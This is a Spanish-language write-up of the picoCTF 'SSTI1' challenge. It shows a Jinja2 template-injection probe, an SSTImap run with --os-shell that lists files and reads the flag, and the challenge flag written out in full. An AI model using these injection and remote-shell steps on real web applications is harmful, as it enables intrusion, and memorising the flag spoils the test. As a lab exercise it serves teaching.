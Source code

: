 ```yaml
---
title: SST1
date: 2025-04-10 17:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, ssti, sstimap, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SSTI1
Author: Venax
Description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto parece mostrar una web donde puedes introducir lo que quieras y lo mostrará en una página
Lanzamos la instancia y nos mostrará una web con un formulario y un botón para enviarlo. 
``` html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 

*Announcements may only reach yourself 
```
Cuando envías el formulario en el botón ok , te redirige a una web http://rescued-float.picoctf.net:54968/announce y allí aparecerá
el "anuncio" introducido en letras grandes

Al principio no tenía ni idea así que mire la pista que da, __Server Side Template Injection__ . Entonces fue cuando caí en la cuenta
muchos templates utilizan las llaves "{}" para parametrizar valores en los templamismos, entonces comencé a experimentar con este tipo de 
inyección. 

Encontré una que produjo un error en el servidor al dividir por 0, lo que indica que en cierta manera el servidor ejecuta lo que está dentro de las llaves
``` shell
{ {1/0} }
```

``` html
Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

Para tratar de explotar si existiera alguna vulenerabilidad utilizo SSTIMap [hacktools/#ssti](../hacktools/#ssti)
La primera prueba me confirma que parece que la web utiliza un plugin que es inyectable
**jinja2 plugin has confirmed injection with tag '*'**

Ahora podría atacar el plugin en concreto pero voy a intentarlo de nuevo pasandole la flag --os-shell y ver que pasa
``` shell
(sstimap) pablo☠office sstimap$ python sstimap.py --url="http://rescued-float.picoctf.net:55270" -f  --os-shell

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://rescued-float.picoctf.net:55270/ "content="
[*] Scanning form with url: http://rescued-float.picoctf.net:55270/
[*] Testing if Body parameter 'content' is injectable
[*] Twig_v1 plugin is testing rendering with tag '*'
[*] Freemarker plugin is testing rendering with tag '*'
[*] Jinja2 plugin is testing rendering with tag '*'
[+] Jinja2 plugin has confirmed injection with tag '*' 
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ ls
__pycache__
app.py
flag
requirements.txt
posix-linux $ cat flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```
Pues resulta que te podemos conseguir una shell y haciendo un simple ls y cat obtenemos la flag.

flag: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}**